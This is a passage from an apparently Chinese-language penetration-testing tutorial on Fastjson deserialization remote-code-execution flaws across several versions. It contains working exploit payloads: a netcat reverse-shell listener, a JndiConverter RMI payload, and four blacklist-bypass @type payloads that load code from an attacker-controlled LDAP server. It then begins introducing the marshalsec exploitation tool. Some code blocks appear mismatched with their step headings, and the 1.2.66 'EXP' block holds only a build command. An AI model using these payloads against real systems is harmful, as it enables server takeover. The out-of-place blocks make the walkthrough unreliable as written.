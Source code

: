 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaIJ9sqyD0IsZd9k3s6CW5l5xQL9qSaFOnrsefW60dpgewW2ovt24qHQ/640?wx_fmt=jpeg)

**2）访问网站，burpsuite 抓包修改**

```
nc -lvp 9001
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaoibx0pvzicKADFcciayic5UJPEFf1vQsyJbD9RWgtuVgEvQRtPLJa4zSbA/640?wx_fmt=jpeg)  

**3）监听反弹 shell**

```
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://127.0.0.1:1099/exploit"}";
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUazlfbClheHs1fWiceReFFdm9mQ0IzYn8Qfdh90v3wlLdhQhOG9TJ2yRA/640?wx_fmt=jpeg)

**0x04 原理分析**

参考：Fastjson <=1.2.47 远程代码执行漏洞分析 - 安全客，安全资讯平台 (anquanke.com)

### 4、Fastjson1.2.62 漏洞简述

利用方法：

基于黑名单绕过，payload 如下

```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}

{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}

{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}

{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.80.1:1389/Calc"}}
```

### 5、Fastjson1.2.66 漏洞简述

同样是基于黑名单绕过，搜集到的 EXP

```
mvn clean package -DskipTests
```

autotypesupport 属性为 true 才可使用，在 1.2.25 版本以后该属性默认为 false

四、Fastjson 渗透工具
---------------

本篇文章涉及到两个工具：`marshalsec-0.0.3-SNAPSHOT-all.jar`和`fastjson_tool.jar`在渗透利用的过程中，本质上都是开启 RMI/lDAP 服务器发送恶意代码至靶机上，但使用上有所区别，这节稍微总结下这两款工具

### 1、marshalsec.jar
